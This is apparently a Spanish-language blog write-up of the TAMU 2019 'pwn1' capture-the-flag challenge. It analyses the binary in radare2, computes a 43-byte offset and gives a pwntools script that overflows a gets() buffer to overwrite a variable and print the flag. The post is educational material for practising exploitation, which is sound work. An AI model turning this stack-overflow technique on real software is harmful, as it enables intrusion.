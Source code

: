 ```yaml
---
layout: post
title: TAMU 2019 pwn1 - BufferOverflow
author: c4rta
date: 2023-01-06
##categories: [Explotacion binaria]
tags: [Explotacion Binaria, BoF]
image: /assets/img/tamu-pwn1/waifu.webp
---
```

Tenemos un BoF stack based donde lo usaremos para sobrescribir el valor de una variable
{:.lead}

El binario lo pueden descargar con:

```wget https://github.com/guyinatuxedo/nightmare/raw/master/modules/04-bof_variable/tamu19_pwn1/pwn1```

## Analisis

El binario cuenta con las siguientes protecciones:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   77 Symbols	  No	0		2		pwn1
```
No tienec Canary asi que podemos intentar un buffer overflow, sin embargo tiene NX, asi que no podemos ejecutar una shellcode.

Aqui intente ejecutar el binario pasandole lo que sea y luego tratando de ocasionar un buffer overflow:

![](/assets/img/tamu-pwn1/binario1.png)

Pero de ninguna forma funciono, asi que vamos a ver que esta pasando, para el reversing usare radare2

Y miren, aqui tenemos la funcion que recibe nuestro input:

![](/assets/img/tamu-pwn1/radare1.png)

Lo mas descatable son las instrucciones:

- lea eax, [ebx - 0x159f]: Que lo que esta haciendo es cargar la direccion de memoria que esta contenida en ```ebx-0x159f```, esto significa que se está leyendo la dirección de memoria contenida en la ubicación de memoria apuntada por ebx-0x159f y luego cargando esa dirección en el registro eax. y lo que tiene esa direccion de memoria es nuestro input

- push eax: Luego nuestro input lo mete al stack

- lea eax, [ s1]: Esto hace lo mismo que ```lea eax, [ebx - 0x159f]``` pero ahora hay que tomar en cuenta que lo esta haciendo con lo que tiene la variable ```s1```, esta se esta declarando como ```var char *s1 @ ebp-0x3b``` y esta 56 bytes por debajo del ```EBP``` 

Despues tenemos una comparacion que es:

![](/assets/img/tamu-pwn1/radare2.png)

Lo que hace primero con ```add``` es sumarle 16 bytes al ```ESP```, esto con el fin para ajustar la posicion del ```ESP``` en el stack. Despues con ```test```se hace una operacion AND bit a bit entre lo que le metimos como input y lo que tiene ```s1```, y esto sirve ya que despues tenemos la intruccion ```je``` que significa ```salta si es igual```, asi que si el input y ```si``` son iguales, la flag ```ZF``` se establece en 1 y salta a la direccion ```0x5655582f``` y si no, la ```ZF``` se establace en 0 y en este caso lo que pasa es que el programa se detiene como se puede ver aqui en esta imaguen que pinte jiji:

![](/assets/img/tamu-pwn1/radare3.gif)

Si son iguales el programa sigue con la ejecucion desde la funcion ```0x5655582f``` (color amarillo), y si no simplemente hace un exit y se detiene (color rojo).

Despues en el programa tenemos otro input, pero es exactamente lo mismo que el que acabe de explicar, solo que la pregunta seria... ¿Cual es el valor de ```s1``` con el que nuestro input se esta comparando?, y lo que se me ocurrio a mi fue: si la variable ```s1``` se esta declarando como una variable global, entonces en la seccion .rodata de el binario debe de estar, esto es por que en .rodata se encuentran las variables inicializadas globalmente pero de solo lectura, entonces mostre la seccion .rodata con el comando ```iz```: 

![](/assets/img/tamu-pwn1/radare4.png)

Y wow, ahora sabemos que nuestros inputs se estan comparando con ```Sir Lancelot of Camelot``` y ```To seek the Holy Grail```, y wow, esto es completamente inutil ya que no nos sirve para nada jaja, lo que en realidad nos sirve es lo que sigue y es donde dice:

```What... is my secret?```

Y aqui es otro input y su codigo en emsamblador es:

![](/assets/img/tamu-pwn1/radare5.png)

Esto es un mas facil de analizar, simplemente compara lo que se almacena en```var_10h``` con el valor ```0xdea110c8``` y si son iguales manda a llama a la funcion ```sym.print_flag```, que basicamente es la que imprime la flag. 

Y para explotarlo, tenemos que hacer es sobreescribir el contenido de ```var_10``` usando ```gets```, pero no es tan obvio como parece, tenemos que tomar en cuenta en donde se ubican dos variables: ```var_10``` y ```s```, esto con el fin de saber el desplazamiento entre esas dos y saber cuantos bytes hay que meter.

Para saber donde esta ```var_10``` vemos la declaracion de la variable:

```var uint32_t var_10h @ ebp-0x10```

Esta esta 0x10 por debajo del EBP, es decir, 16 bytes.

Y para ```s1```:

```var char *s1 @ ebp-0x3b```

Esta a 0x3b, es decir, 59 bytes

Entonces tenemos un desplazamiento de 59 - 16 = 43, asi que debemos de escribir 43 bytes antes de sobreescribir la variable

## Exploit

```py
from pwn import *

target = process('./pwn1')

payload = b"A"*43 #Esto es el padding
payload += p32(0xdea110c8) #el valor por la cual la vamos a sobreescribir

target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

target.sendline(payload)
target.interactive()
```

Y listo

```
python3 exploit.py

[+] Starting local process './pwn1': pid 26329
/home/c4rta/Downloads/exploit.py:9: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("Sir Lancelot of Camelot")
/home/c4rta/Downloads/exploit.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  target.sendline("To seek the Holy Grail.")
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz} --> la flag
```

Eso ha sido todo, gracias por leer ❤